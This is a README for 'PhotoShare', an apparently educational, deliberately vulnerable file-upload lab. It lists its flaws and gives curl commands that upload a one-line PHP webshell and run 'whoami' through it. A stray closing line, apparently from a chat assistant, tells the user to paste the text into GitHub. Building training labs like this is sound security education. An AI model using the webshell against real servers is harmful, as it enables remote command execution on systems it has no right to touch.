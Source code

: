 # PhotoShare - Vulnerable File Upload Lab

A deliberately vulnerable file upload application for security education.

## WARNING
This application is intentionally vulnerable. Never use in production.

## Quick Start
```bash
git clone https://github.com/pondoksiber/Photo_Share_Labs/photoshare-vulnerable-lab.git
cd photoshare-vulnerable-lab
chmod +x
./autodeploy.sh
```

## Vulnerabilities
Unrestricted file upload via API
PHP webshell execution
Weak authentication
Path traversal

## Basic Upload Test:
bash
curl -i 'http://<YOUR_VPS_IP>:3000/api/users/one/admin/photo' \
  -X PUT \
  -H 'authorization: AUTH_TOKEN' \
  -F "admin=@test.exe;filename=test.exe"

## Webshell Upload:
bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
curl -F "admin=@shell.php;filename=shell.php" \
  -H "authorization: AUTH_TOKEN" \
  -X PUT http://<YOUR_VPS_IP>:3000/api/users/one/admin/photo
curl 'http://<YOUR_VPS_IP>/uploads/shell.php?cmd=whoami'

## Endpoints
/ - Main upload (secure)
/uploads - File gallery
/manual - Documentation
/manual/deep - Testing guide
PUT /api/users/one/admin/photo - Vulnerable API

Educational Use Only
Use responsibly in controlled environments.

**Just copy the text above and paste it into your README.md file on GitHub!** 

This avoids the application error while giving you all the essential information. You can always expand it later directly on GitHub. 🚀

